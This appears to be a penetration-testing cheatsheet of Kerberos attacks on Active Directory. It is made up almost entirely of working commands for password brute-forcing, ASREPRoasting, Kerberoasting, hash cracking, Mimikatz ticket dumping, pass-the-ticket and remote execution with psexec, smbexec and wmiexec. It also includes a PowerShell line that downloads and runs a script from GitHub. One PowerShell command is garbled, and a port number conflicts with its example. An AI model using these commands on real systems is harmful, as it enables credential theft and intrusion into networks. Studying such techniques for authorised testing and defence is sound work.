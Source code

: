 # Kerberos cheatsheet

## Bruteforcing

With [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute):

```shell
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:

```shell
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

## ASREPRoast

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetNPUsers.py:

```shell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
python3 GetNPUsers.py COMPANY.local/james:Password123 -request -format john -outputfile /home/ubuntu/Documents/file/dir/asrep.out -dc-ip 172.16.1.20

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

* attempt with no password&#x20;

```
python3 GetNPUsers.py COMPANY.local/james -no-pass -dc-ip 172.16.1.20
```

* Attempt with a userlist of potentially valid users

```
python3 GetNPUsers.py COMPANY.local/ -usersfile /home/ubuntu/Documents/htb/dir/users.txt -format hashcat -outputfile /home/ubuntu/Documents/htb/dir/valid-users.out
```

With [Rubeus](https://github.com/GhostPack/Rubeus):

```shell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

Cracking with dictionary of passwords:

```shell
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```

### SPN Service Principal Name Overview&#x20;

* The structure of an SPN consists of three (3) main parts: **Service Class**: the service type, i.e., _SQL, Web, Exchange, File,_ etc., and the **Host** where the service is usually running in the format of **FQDN** _(Fully Qualified Domain Name)_&#x61;nd **port number**.&#x20;
*   For example, below, the Microsoft SQL service runs on the **`dcorp-mgmt`** host on port 1443.

    The SPN is **`MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433`**

## Kerberoasting

* Great reading:
* [https://specterops.gitbook.io/ghostpack/rubeus/roasting](https://specterops.gitbook.io/ghostpack/rubeus/roasting)

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetUserSPNs.py:

```shell
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
python3 GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

📌[**HackTricks Tip:**](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberoast) _If you find this **error** from Linux: **Kerberos SessionError: KRB\_AP\_ERR\_SKEW(Clock skew too great)** it because of your local time, you need to synchronize the host with the DC: **ntpdate \<IP of DC>**_

With [Rubeus](https://github.com/GhostPack/Rubeus):

```shell
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

With **Powershell**:

```
#Invoke-Kerberoast.ps1 IEX Method
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
#or load this way
Import-Module .\invoke-kerberoast.ps1
#basic command 
Invoke-Kerberoast -Domain active.htb -OutputFormat Hashcat | fl
#verbose command 
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

* Can also acomplish this in native powershell if you have a session&#x20;

```
Add-Type -AssemblyName System.IdentityModelNew -ObjectSystem.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "Service class\Hostname:Port"
```

Cracking with dictionary of passwords:

```shell
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```

### With Invoke-Mimikatz.ps1

```
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### Harvest tickets from Windows

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```shell
mimikatz # sekurlsa::tickets /export
```

With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:

```shell
.\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```

To convert tickets between Linux/Windows format with [ticket\_converter.py](https://github.com/Zer1t0/ticket_converter):

```
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```

### Using ticket in Linux:

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```shell
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

### Using ticket in Windows

Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```shell
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Misc

To get NTLM from password:

```python
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## Tools

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Rubeus](https://github.com/Zer1t0/Rubeus) with brute module
* [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
* [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute)
* [tickey](https://github.com/TarlogicSecurity/tickey)
* [ticket\_converter.py](https://github.com/Zer1t0/ticket_converter)
